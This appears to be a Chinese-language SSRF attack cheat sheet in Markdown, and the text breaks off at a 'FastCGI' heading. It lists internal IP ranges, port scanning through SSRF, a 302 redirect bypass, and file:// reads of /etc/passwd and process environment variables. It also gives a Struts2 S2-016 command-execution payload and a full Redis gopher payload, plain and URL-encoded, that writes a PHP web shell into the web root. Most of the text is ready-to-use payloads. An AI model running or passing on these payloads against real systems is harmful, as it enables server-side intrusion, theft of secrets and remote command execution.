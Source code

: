 ## 內網IP

- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`

## XSPA

- port scan
    - `127.0.0.1:80` => OK
    - `127.0.0.1:87` => Timeout
    - `127.0.0.1:9487` => Timeout

## 302 Redirect Bypass

- 用來繞過protocol限制
- 第一次SSRF，網站有做檢查、過濾
- 302跳轉做第二次SSRF沒有檢查

## 本地利用

- file protocol
    - `file:///etc/passwd`
    - `file:///proc/self/cmdline`
        - 看他在跑啥
    - `file:///proc/self/exe`
        - dump binary
    - `file:///proc/self/environ`
        - 讀環境變數
    - `curl file://google.com/etc/passwd`
        - 新版已修掉
        - 實測libcurl 7.47可work
    - Java原生可列目錄
    - Perl/Ruby open Command Injection

## 遠程利用
- Gopher
    - 可偽造任意TCP，hen蚌
    - `gopher://127.0.0.1:5278/xGG%0d%0aININDER`
- 常見例子
    - Struts2
        - S2-016
            - `action:`、`redirect:`、`redirectAction:`
            - `index.do?redirect:${new java.lang.ProcessBuilder(‘id’).start()}`
    - ElasticSearch
        - default port: `9200`
    - Redis
        - default port: `6379`
        - 用SAVE寫shell
        ```
            FLUSHALL 
            SET myshell "<?php system($_GET['cmd']) ?>"
            CONFIG SET DIR /www 
            CONFIG SET DBFILENAME shell.php 
            SAVE
            QUIT
        ```
        - URLencoded payload:
        `gopher://127.0.0.1:6379/_FLUSHALL%0D%0ASET%20myshell%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%0D%0ACONFIG%20SET%20DIR%20%2fwww%2f%0D%0ACONFIG%20SET%20DBFILENAME%20shell.php%0D%0ASAVE%0D%0AQUIT`
    - FastCGI